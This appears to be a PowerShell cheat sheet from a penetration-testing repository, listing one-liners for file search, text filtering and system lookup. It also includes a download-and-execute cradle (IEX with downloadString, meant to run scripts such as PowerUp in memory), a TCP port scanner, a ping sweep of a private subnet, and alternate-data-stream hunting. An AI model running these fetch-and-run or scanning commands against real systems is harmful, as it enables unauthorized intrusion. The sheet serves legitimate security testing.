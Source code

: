 # PowerShell Conveniences

### Switches

`-NoExit` - Keeps ps window open; useful for debugging macros that are ran when a document is open

### Commands

Gets installed software, version, and install date.
```PowerShell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```

Web requests (if one doesnt work, try the other). PowerUp!
```PowerShell
Invoke-WebRequest -Uri <target uri> -Method Get -Outfile <whatevs>.ps1 #IWR
powershell IEX(New-Object Net.Webclient).downloadString("<target uri>") #Invoke-Expression
#IEX if you want to execute without touching the disk
```

"which" nix-style output.
```powershell
Get-Command <your command> | Select-Object -ExpandProperty Definition
```

"grep"-like with x number of lines before or after.
```powershell
<some_cmd> | Select-String -Pattern "whatever" -Context 2,4
# print 2 lines before "whatever" and 4 lines after "whatever" (including "whatever")
```

sort uniq
```powershell
Get-Content file.txt | Sort-Object -unique
```
Find a file recursively
```powershell
gci -Path V:\Myfolder -Filter filename.ext -Recurse -ErrorAction SilentlyContinue -Force
```
Find a string within a file recursively
```powershell
ls -recurse | Select-String "google" | Select Path, LineNumber | Format-List
#alternatively
ls c:\temp\searchfolder -recurse | Select-String "google" | Select Path, LineNumber | Format-List
```
Get FQDN
```powershell
[System.Net.Dns]::GetHostByName($env:computerName)
```
Search for hidden files in a dir
```powershell
gci -recurse -Hidden -ErrorAction SilentlyContinue
```
copy files of one type from a share to your local machine, recursively
```powershell
 gci z:\ -Recurse -Filter *.xml | Copy -Destination C:\path\to\dir
 ```
wc -c equivalent
```powershell
echo "hash" | Measure-Object -Character
```
search current dir recursively for alternate data streams
```powershell
Get-ChildItem -recurse | ForEach { Get-Item $_.FullName -stream * } | Where stream -ne ':$DATA'
```
get data from ADS's found with the above cmd
```powershell
Get-Content -Path '.\Debug Mode filename.ext' -stream stream-name
```
port scanner
```powershell
1..65535 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("172.16.2.5",$_)) "Port $_ is open" } 2>$null
```
ping sweeper
```
1..255 | % {echo "172.16.2.$_"; ping -n 1 -w 100 172.16.2.$_ | select-string ttl}
```
